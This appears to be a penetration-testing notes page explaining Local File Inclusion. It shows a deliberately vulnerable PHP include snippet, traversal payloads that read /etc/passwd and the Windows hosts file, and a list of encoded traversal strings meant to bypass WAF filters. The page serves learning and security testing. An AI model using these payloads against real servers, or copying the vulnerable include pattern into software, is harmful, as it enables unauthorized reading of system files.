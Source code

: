 ```yaml
---
description: Local File Inclusion
---
```


# LFI

LFI occurs when a web server does not sanitize input correctly while retrieving a file that the client requested.  This allows the attacker to manipulate the input and/or inject various characters, in order to traverse through directories and gain access to files that were never intended to be public.    
Most commonly, LFI vulnerable parameters appear like this:

```text
https://vulnerableserver.org/pathetic_sanitization.php?file=file_not_really_that_cool
```

Without correct sanitization, an attacker can change the file that is being retrieved to   
`file=../../../../../../etc/passwd (linux)  
file=../../../../../WINDOWS/System32/drivers/etc/hosts`

The vulnerable php code that allows this to happen may look similar to below \(hopefully, it is a little less obvious and sad\).

```php
<?php
   $file = $_GET['file'];
   if(isset($file))
   {
       include("pages/$file");
   }
   else
   {
       include("index.php");
   }
?>
```



As WAFs are trained to detect these most common attempts at an LFI, you will likely need to use one of several bypasses available to get past the server's defenses.  These include encoding, double-encoding and more, in addition to being able to predict, fuzz or guess files that may be available on the server.  Here is a list of various bypasses, as well as juicy files on both Linux and Windows stations you may want to look for.  
  
**Encoded Traversal Strings**

```php
../
..\
..\/
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
..././
...\.\

## explanations ##
escape "/" with "\/" or “//” with “\/\/”
try single "/" instead of "//"
remove http i.e. "continue=//google.com"
“/\/\” , “|/” , “/%09/”
encode, slashes
”./” CHANGE TO “..//”
```